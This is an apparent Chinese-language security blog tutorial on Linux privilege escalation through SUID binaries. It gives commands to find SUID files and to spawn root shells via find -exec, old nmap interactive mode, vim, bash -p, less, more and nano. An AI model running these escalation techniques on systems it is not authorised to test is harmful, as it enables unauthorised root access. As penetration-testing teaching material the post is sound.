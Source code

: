 ```yaml
---
title: Linux渗透 SUID提权
description: Linux渗透 SUID提权
pubDate: 11 11 2024
image: https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-12.webp
categories:
  - 网络安全
tags:
  - Linux提权
---
```


## SUID

> SUID（Set User ID）是Linux和Unix系统中一种文件权限位，允许用户在执行文件时以文件所有者的身份运行该程序，而不是执行者的身份。通常，这在需要特定权限的程序中使用，例如需要以 root 权限执行的程序，方便非 root 用户运行而无需直接授予他们 root 权限。

SUID 的特点是用户运行某个程序时，如果该程序有 SUID 权限，程序运行进程的属主不是发起者，而是程序文件所属的属主。

比如普通用户张三想要运行一个程序，而这个程序需要有李四的权限，那么就可以为这个程序设置 SUID，当张三运行这个程序的时候就会拥有李四的权限，从而去运行这个程序。而如果，这里李四是 root 用户，那么张三在运行这个程序时，就是以 root 用户权限去运行的。

我们可以利用这个特性去进行提权

## 设置 SUID

通过如下命令进行设置

```shell
chmod u+s filename 设置SUID位
chmod u-s filename 去掉SUID设置
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-1.webp)

可以看到，在设置 SUID 后，权限中 x 的位置变成了 S

## SUID 利用

当前权限如下

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-2.webp)

### SUID 文件收集

首先是要去收集存在 SUID 的文件

```shell
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

- 命令一： `find / -perm -u=s -type f 2>/dev/null`
  - 解释：在根目录 `/` 下递归查找所有具有 SUID 权限的文件。
  - 参数说明：
    - `-perm -u=s`：表示查找设置了 SUID 位的文件（以拥有者身份执行）。
    - `-type f`：只查找文件（不包括目录、链接等其他类型）。
    - `2>/dev/null`：将错误输出重定向到 `/dev/null`，隐藏因为权限不足导致的错误消息。
  - 目的：查找系统中所有具有 SUID 权限的文件，以检查可能存在的提权漏洞。

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-3.webp)

- 命令二： `find / -user root -perm -4000 -print 2>/dev/null`
  - 解释：在根目录下查找所有具有 SUID 权限且文件拥有者是 `root` 的文件。
  - 参数说明：
    - `-user root`：限定文件拥有者为 `root` 用户。
    - `-perm -4000`：查找具有 `4000` 权限的文件，即 SUID 位被设置的文件。
    - `-print`：输出找到的文件路径。
    - `2>/dev/null`：将错误信息重定向到 `/dev/null`，隐藏错误消息。
  - 目的：查找系统中以 `root` 身份执行的 SUID 文件，这些文件如果存在安全漏洞，可能被用于提权到 `root`。

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-4.webp)

- 命令三： `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`
  - 解释：在根目录下查找所有具有 SUID 权限且拥有者是 `root` 的文件，并详细列出这些文件的权限和信息。
  - 参数说明：
    - `-user root`：限定文件拥有者为 `root` 用户。
    - `-perm -4000`：查找具有 `4000` 权限的文件，即 SUID 位被设置的文件。
    - `-exec ls -ldb {}`：对找到的每个文件执行 `ls -ldb` 命令，详细列出文件的权限、所有者等信息。
    - `{}`：表示找到的文件路径会插入到 `{}` 中。
  - 目的：不仅查找 SUID 文件，还通过 `ls -ldb` 详细列出文件权限、所有者等信息，有助于进一步分析这些文件的潜在风险。

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-5.webp)

### find 提权

如果 find 拥有 SUID 权限的话，我们可以利用它进行提权

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-6.webp)

find 命令需要指向一个文本文件，就以 `/etc/passwd` 为例

```shell
find /etc/passwd -exec whoami \;
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-7.webp)

成功以 root 权限去执行了 `whoami`。我们可以用这种方式去执行各种命令

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-8.webp)

### nmap 提权

在早期 nmap 版本中，带有交互模式，因而允许用户执行shell命令。

适用版本：nmap 2.02 至 5.21

使用如下命令进入nmap交互模式:

```css
nmap --interactive
```

在nmap交互模式中 通过如下命令提权

```shell
nmap> !sh
sh-3.2# whoami
root
```

### Vim 提权

要先打开一个文件

```
vim /etc/passwd
```

然后进入 vim 命令模式，通过vim进入shell

```shell
:set shell = '/usr/bin/sh'
:shell
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-9.webp)

### Bash 提权

以下命令将以 root 身份打开一个 bash shell。

```bash
bash -p
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-10.webp)

### less 提权

less 命令也可以进入 Shell

```bash
less /etc/passwd
```

在 less 中输入：`!/bin/sh`

注意：要读取一个比较大的文件，如果文件太小无法进入翻页功能也就无法使用 `!` 命令进入 shell

### more 提权

more命令进入 shell 和 less 相同

```bash
more /etc/passwd
#在more中输入:
!/bin/sh
```

注意：要读取一个比较大的文件，如果文件太小无法进入翻页功能也就无法使用 `!` 命令进入 shell

### nano 提权

nano 进入 shell 的方法为

```
nano #进入nano编辑器
Ctrl + R
Ctrl + X
#即可输入命令
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-11.webp)

## 总结

其实就是用属主为 root 用户，拥有 SUID 的可执行文件去执行命令，除了上面说的那些，什么 python，perl，man 等等工具脚本，

只要是满足下面的条件都可以去利用

- 有 SUID，
- 属主是对应权限用户
- 是可执行文件
- 可以通过不同的方式去执行命令
